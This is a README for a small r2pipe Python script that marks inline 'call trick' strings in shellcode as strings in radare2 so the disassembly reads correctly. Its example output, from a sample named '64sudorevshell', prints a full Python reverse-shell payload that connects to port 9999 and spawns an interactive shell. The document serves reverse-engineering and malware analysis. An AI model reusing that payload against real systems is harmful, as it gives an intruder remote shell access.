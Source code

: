 # call_trick_r2pipe

Are you using radare for reversing or debugging a shellcode/malware with a lot of call tricks for strings like these:

```
call @f
db "string1",0
@f:
more code
call @g:
db "string2",0
@g:
more code
```

Try this r2pipe (https://www.radare.org/n/r2pipe.html) script to fix disasm:
 ```
#!/usr/bin/env python3
 
# Python 3.6, run inside r2 session: #!pipe python3 poc.py

import r2pipe

r2 = r2pipe.open()
print(r2.cmd("izz"))
for e in r2.cmdj("izzj"):
       if e['type'] == "ascii" and e['section'] == ".text":
               csa = f"Csa {e['size']} @ { e['vaddr']}"
               print(csa)
               r2.cmd(csa)
```

This script search all C-STRING-STYLE in .text section and mark each one like string 

Just use this script with "#!pipe python3 poc.py" command inside your r2 session:
```
dreg@fr33project:~# r2 64sudorevshell
[0x00401000]> #!pipe python3 poc.py
[Strings]
nth paddr      vaddr      len size section   type  string
---------------------------------------------------------
0   0x0000105a 0x0040105a 524 525  .text     ascii exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((str(0x7f000001),9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")
1   0x00001274 0x00401274 11  12   .text     ascii /bin/python
2   0x000012b7 0x004012b7 9   10   .text     ascii /bin/sudo
3   0x00001479 0x00000001 18  19   .strtab   ascii 64sudorevshell.asm
4   0x0000148c 0x00000014 6   7    .strtab   ascii parent
5   0x00001493 0x0000001b 5   6    .strtab   ascii child
6   0x00001499 0x00000021 4   5    .strtab   ascii arg3
7   0x000014a2 0x0000002a 4   5    .strtab   ascii arg2
8   0x000014ab 0x00000033 4   5    .strtab   ascii arg1
9   0x000014b0 0x00000038 4   5    .strtab   ascii drgs
10  0x000014b9 0x00000041 6   7    .strtab   ascii end_sc
11  0x000014c0 0x00000048 11  12   .strtab   ascii __bss_start
12  0x000014cc 0x00000054 6   7    .strtab   ascii _edata
13  0x000014d3 0x0000005b 4   5    .strtab   ascii _end
14  0x000014d9 0x00000001 7   8    .shstrtab ascii .symtab
15  0x000014e1 0x00000009 7   8    .shstrtab ascii .strtab
16  0x000014e9 0x00000011 9   10   .shstrtab ascii .shstrtab
17  0x000014f3 0x0000001b 18  19   .shstrtab ascii .note.gnu.property
18  0x00001506 0x0000002e 5   6    .shstrtab ascii .text


Csa 525 @4198490
Csa 12 @4199028
Csa 10 @4199095
[0x00401000]>
```

# Before

![alt text](before.png)

# After

![alt text](after.png)

Greetz to Maijin for hints in #radare channel
           



